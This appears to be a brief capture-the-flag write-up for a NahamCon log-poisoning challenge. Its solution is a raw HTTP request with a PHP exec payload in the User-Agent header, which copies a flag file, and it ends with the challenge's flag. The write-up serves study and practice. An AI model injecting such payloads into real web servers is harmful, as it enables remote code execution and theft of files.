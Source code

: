 # Rotten Logging

Tags: _log poisoning_

## Challenge

>Author: @NightWolf#0268
>
>This is Stage 3 of Path 3 in The Mission. After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.
>
>Orion was interested in purchasing this service to handle all the logs that CONSTELLATIONS generates. Something seems off though...
>
>Click the Start button to begin this challenge.
>
>Connect with:
>
>http://challenge.nahamcon.com:30495
>
>http://challenge.nahamcon.com:31974
>



## Solving

```
GET / HTTP/1.1

Host: challenge.nahamcon.com:30495

User-Agent: <?php exec('cat /var/www/localhost/htdocs/ThSe7x68A7Mo67-breachdetails/flag.txt > /tmp/gv'); ?>

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Cookie: authtoken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd2In0.7kCsg0zqouwUCy-8EGQPkQQqlsBii5_qiDbj3at-ZME

Upgrade-Insecure-Requests: 1
```


`flag{892427c840bdb0f4cf16af94b7312804}`

